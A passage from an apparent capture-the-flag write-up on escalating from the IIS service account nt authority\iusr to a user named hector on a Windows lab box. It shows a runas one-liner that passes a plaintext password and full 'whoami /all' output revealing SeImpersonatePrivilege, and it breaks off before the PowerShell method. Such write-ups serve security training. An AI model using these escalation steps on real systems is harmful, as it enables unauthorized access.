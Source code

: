 Ok so we are logged as `nt authority\iusr`, a service account.

### Privilege Escalation : isur to hector

**TL;DR**: powershell _runas_

So we may need to log as _hector_ or _manager_ to see interesting stuff.

But `runas` tricks like this one never works outside a true graphical terminal.

```
cmd /C echo l33th4x0rhector | runas /user:hector /netonly cmd.exe
```

So I had to figure out how to do it in powershell.

Before let's check detailed permissions:

```
C:\inetpub\wwwroot>whoami /all
whoami /all

USER INFORMATION
----------------

User Name         SID     
================= ========
nt authority\iusr S-1-5-17


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Group used for deny only                          
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled

ERROR: Unable to get user claims information.
```